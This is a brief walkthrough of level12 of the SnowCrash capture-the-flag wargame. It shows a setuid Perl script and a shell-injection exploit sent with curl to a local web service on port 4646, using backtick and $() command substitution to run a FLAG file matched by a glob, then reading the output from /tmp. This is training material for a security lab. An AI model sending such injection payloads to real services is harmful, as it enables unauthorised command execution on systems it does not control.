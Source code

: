 ## 1. Connect to level12:

```bash
level11@SnowCrash:~$ su level12
password: *use previously found flag*
```

## 2. See existing files:

```bash
level12@SnowCrash:~$ ls -l
    -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl

level12@SnowCrash:~$ cat level12.pl
```

## 3. With the content of `level12.pl`, we can see that we can do a shell injection:
Let's use /*/FLAG to be executed as a command substitution
```bash
level12@SnowCrash:~$ curl 'http://localhost:4646/?x=`/*/FLAG`'
level12@SnowCrash:~$ curl 'http://localhost:4646/?x=$(/*/FLAG)'
```

```bash
level12@SnowCrash:~$ cat /tmp/FLAG
```